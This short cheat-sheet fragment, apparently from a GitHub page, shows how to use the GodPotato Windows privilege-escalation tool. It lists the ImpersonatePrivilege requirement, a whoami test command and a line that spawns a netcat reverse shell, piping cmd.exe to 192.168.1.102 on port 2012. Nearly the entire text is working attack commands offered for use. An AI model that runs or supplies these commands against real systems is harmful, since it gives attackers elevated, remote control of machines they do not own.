 
requirements:<br>
ImpersonatePrivilege


GodPotato -cmd "cmd /c whoami"
<br>
rev<br>
GodPotato -cmd "nc -t -e C:\Windows\System32\cmd.exe 192.168.1.102 2012"

